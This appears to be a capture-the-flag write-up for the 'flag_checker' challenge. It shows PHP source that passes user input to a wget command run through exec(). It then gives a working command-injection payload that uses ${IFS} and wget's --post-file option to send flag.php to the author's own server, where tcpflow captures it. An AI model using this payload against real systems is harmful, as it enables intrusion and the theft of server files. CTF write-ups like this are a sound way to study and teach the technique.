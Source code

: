 ## flag_checker

A source code was provided for this challenge :
```php
<?php
/* flag_checker */
include('flag.php');

if(!isset($_GET['flag'])) {
    highlight_file(__FILE__);
    die();
}

function checkFlag($flag) {
    $example_flag = strtolower('FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}');
    $valid = true;
    for($i = 0; $i < strlen($flag) && $valid; $i++)
        if(strpos($example_flag, strtolower($flag[$i])) === false) $valid = false;
    return $valid;
}


function getFlag($flag) {
    $command = "wget -q -O - https://kuhi.to/flag/" . $flag;
    $cmd_output = array();
    exec($command, $cmd_output);
    if(count($cmd_output) == 0) {
        echo 'Nope';
    } else {
        echo 'Maybe';
    }
}

$flag  = $_GET['flag'];
if(!checkFlag($flag)) {
    die('That is not a correct flag!');
}

getFlag($flag);
?>
```
From this code we can see it's a oob comand injection , and we can also see that  the function verify only lowercase , so we can add options to our payload with o we can add options with ${IFS}.

First of all I set up a public aws instance and i also installed  ngix.  because the aws instances gives me a public ip , then I listened ngnix on port 80 and used this payload on the challenge : http://challs.xmas.htsp.ro:3001/?flag=${IFS}-${IFS}--post-file${IFS}flag.php${IFS}1.1.1.1(
in place of 1.1.1.1 I put the public ip of the aws instance). Let's see how this payload works.
First of all i used tge $IFS variable, which is the “Internal Field Seperator” with default value <space><tab><newline> also works fine as a separator for commands , in this way the payload is a oob command injection with whitespace bypass , after i used the comand --post-file (this command is used to send the content of a file using wget) because i needed to get out to wget and send the flag.php to my asw istance.

After i went to my ngnix and intercepted the traffic with  tcpflow , more specifically with this comand " tcpflow -p -c -i eth0 port 80 " and i could see the content of the flag.php

![xmas1](https://user-images.githubusercontent.com/59454895/103447731-6ac10100-4c8f-11eb-9363-1ebdd340e3ae.PNG)
